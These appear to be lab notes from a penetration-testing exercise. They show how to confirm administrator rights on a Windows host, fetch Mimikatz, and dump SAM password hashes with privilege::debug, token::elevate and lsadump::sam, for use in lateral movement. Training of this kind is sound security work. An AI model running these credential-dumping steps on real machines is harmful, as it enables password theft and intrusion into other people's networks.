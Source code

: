 ![[Pasted image 20240215215345.png]]

see if you have privilege's: -> whoami /groups 
You should see `BUILTIN\Administrators` in the list of groups, and a line at the bottom of the output containing `Mandatory Label\High Mandatory Level`.

![[Pasted image 20240215220754.png]]

This means you're running as Administrator.

The classic thing to do here would be to try to dump the password hashes from the machine. In a network scenario these could come in handy for lateral movement. They also give us a way to prove our access to a client as Windows ([Serious Sam](https://www.rapid7.com/blog/post/2021/07/21/microsoft-sam-file-readability-cve-2021-36934-what-you-need-to-know/) vulnerability aside) prevents anyone from accessing this information if they don't have the highest possible privileges.

We will dump passwd with [Mimikatz](https://github.com/gentilkiwi/mimikatz) 

First up, let's get an up-to-date copy of Mimikatz to our attacking machine. The code for the tool is publicly available on Github, but fortunately for the sake of simplicity, there are also pre-compiled versions available for download.

Go to the [releases page](https://github.com/gentilkiwi/mimikatz/releases) for Mimikatz and find the latest release at the top of the list. Download the file called `mimikatz_trunk.zip` to your attacking machine.

-> move to terminal -> cd Desktop -> ls -la "search for mimikatz zip file"

> mv mimikatz_trunk.zip /tmp

![[Pasted image 20240215222011.png]]

You should try to find the path in wich where is "mimikatz.exe":

> cd /tmp

> unzip mimikatz_trunk.zip 


![[Pasted image 20240215222325.png]]

Now we can get to work!

Switch back into your RDP session and (using the elevated Command Shell we obtained in the last task) execute the following command to start Mimikatz:  
`\\tsclient\share\x64\mimikatz.exe`

When we start Mimikatz we usually have to execute two commands before we start dumping hashes:

-  `privilege::debug` -- this obtains debug privileges which (without going into too much depth in the Windows privilege structure) allows us to access other processes for "debugging" purposes.
- `token::elevate` -- simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a _right_ to do as an administrator, but that is not usually possible using normal Windows operations.

> lsadump::sam

![[Pasted image 20240215223132.png]]
